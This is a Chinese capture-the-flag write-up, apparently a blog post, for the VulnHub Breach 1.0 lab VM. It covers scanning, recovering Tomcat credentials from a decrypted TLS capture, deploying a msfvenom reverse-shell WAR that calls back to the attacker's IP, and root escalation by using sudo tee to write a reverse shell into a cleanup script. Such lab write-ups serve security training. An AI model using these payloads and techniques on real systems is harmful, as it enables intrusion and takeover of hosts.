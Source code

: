 # 原创
：  VulnHub渗透测试实战靶场 - Breach 1.0

# VulnHub渗透测试实战靶场 - Breach 1.0

#### Vulnhub - Breach-1.0

## 环境下载

> 
戳此进行[环境下载](https://download.vulnhub.com/breach/Breach-1.0.zip)


## Breach-1.0靶机搭建

> 
将下载好的靶机环境，用VMware导入即可使用


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/6e7f556ae5e5404ab07825ea8eccd520.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/7dd12027f7ec4186b3eff48bcfcaad7f.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
VMware虚拟机配置有静态IP地址：`192.168.110.140`，需要将虚拟机网卡设置为`host-only`方式



<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/1c51b0bfd71249e8a942dcc4bf2c24db.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/4c8546fa6cbe4d71baba2d6afe141bae.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/9669faf01cab4e6ea78fdab57461e283.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

## 渗透测试

### 信息搜集

> 
使用`arp-scan`来检测我们的目标IP：`sudo arp-scan -l`


> 
使用`nmap`扫描开放的端口：`sudo nmap -sS -A 192.168.110.140 -oN Breach.txt`，发现端口基本上都是开放的，直接访问80端口


### 漏洞挖掘

> 
查看源码发现base64字符串


> 
两次base64解密后得到：`pgibbons:damnitfeel$goodtobeagang$ta`


> 
点击图片后发现会跳转到另外一个存在登录选项的页面<br/> 用前面解码得到的`pgibbons:damnitfeel$goodtobeagang$ta`进行登录


> 
搜索相关漏洞，测试后发现无法利用，但是注意到有三封邮件，在第三封邮件中发现有一个peter的SSL证书被保存在`192.168.110.140/.keystore`


> 
keystore是存储公私密钥的一种文件格式，访问`http://192.168.110.140/.keystore`下载包含SSL证书的密钥库keystore文件


> 
依次访问左边的菜单树，点击每个菜单栏：



<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/9c19c69c362d4f88b4a7922942a37ad2.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/6af9a2e0add0446fa916eb4f40dfbdc9.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/1d4a8067359f4fcabdfe5edb7549cec5.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
在View Account菜单进入界面的页面中的Content中存在一个链接`Content SSL implementation test capture`<br/> 点击链接跳转到`http://192.168.110.140/impresscms/modules/content/content.php?content_id=1`，发现一个流量包


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/d13f000e903e482bb8ed79973d37a202.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/2cc33ea9b0794e98b60b26b0fa8b2ff1.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
用wireshark打开下载的pacp包，发现内容经过了SSL加密，由下载页面的提示得到密码为`tomcat`，先查看`keystore`这个密匙库里面的所有证书


> 
从密钥库导出.p12证书：`sudo keytool -importkeystore -srckeystore keystore -destkeystore tomcatkeystore.p12 -deststoretype pkcs12 -srcalias tomcat`，在Wireshark中打开`_SSL_test_phase1.pcap`流量包文件，将`tomcatkeystore.p12`证书导入Wireshark，选择菜单：编辑–首选项–Protocols–SSL，点击右边的Edit


> 
导入SSL证书之后，发现部分TLS变成了HTTP，发现从192.168.110.129到192.168.110.140的攻击流量包，其中有cmd命令马执行了id命令，攻击者上传了两张图片，疑似图片马，但是命令马无法直接访问，需要登录tomcat后台


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/b936447e8a4a428ab331fe14f990ee86.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/2c6061a9b9a4482792b74270b54843d2.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
继续观察流量包，发现一个Unauthorized的认证包，该request和response包含了Tomcat后台的登录地址：`https://192.168.110.140:8443/_M@nag3Me/html`


> 
发现包含登录用户名密码的数据包， 采用`http basic`认证<br/> 认证数据包为：`Basic dG9tY2F0OlR0XDVEOEYoIyEqdT1HKTRtN3pC`<br/> Tomcat后台登录用户名：`tomcat`，密码：`Tt\5D8F(#!*u=G)4m7zB`


> 
这里测试后发现直接访问网站貌似不得行，利用burpsuite代理访问成功


### getshell

> 
Tomcat后台getshell是有标准姿势的，测试后发现上传的马很快就会消失<br/> 利用msf生成一个war格式的反弹shell：`msfvenom -p java/meterpreter/reverse_tcp lhost=192.168.110.128 lport=1234 -f war -o shell.war`


> 
用msf开启监听：`use exploit/multi/handler`，将生成的war格式的反弹shell马上传到Tomcat<br/> 马上访问`https://192.168.110.140:8443/shell/`，成功反弹shell


### 提权

> 
将shell升级为 tty，得到一个交互式的shell：`python -c 'import pty;pty.spawn("/bin/bash")'`


> 
收集主机信息，发现没有内核提权，在`/etc/passwd`发现`milton`和`blumbergh`用户


> 
查阅网站信息时发现在`/var/www/5446`文件夹内存在mysql数据库连接文件


> 
登录mysql数据库，发现milton的密码，将得到的哈希后的密码解密得到明文密码：`thelaststraw`


> 
登录milton，发现它并不属于sudo组，看到历史命令中通过su提权到了blumbergh用户，猜测应该有blumbergh用户的密码


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/e49c7053f96e4c28b60085bb3025d7b5.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/6d9e0e7d3efd4447aceae991b88d2634.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
在最开始时发现了一些图片，在bill.png中找到了密码：`coffeestains`


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/9fbe01a24b06421b93441fee1982331d.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/b8f60925b474410f97ae6a783f3c529a.png#pic_center"/>

> 
切换到blumbergh用户，`sudo -l`查看权限，用户能够以root权限执行这tee程序和tidyup.sh脚本：`/usr/bin/tee`和`/usr/share/cleanup/tidyup.sh`，其中tee命令用于读取标准输入的数据，并将其内容输出成文件，tidyup.sh是清理脚本


> 
向tidyup.sh中写入反弹shell命令，由于能够以root权限运行tee命令，即可以用tee命令写tidyup.sh



> 
起一个监听，成功反弹shell，查看权限


> 
flag图片

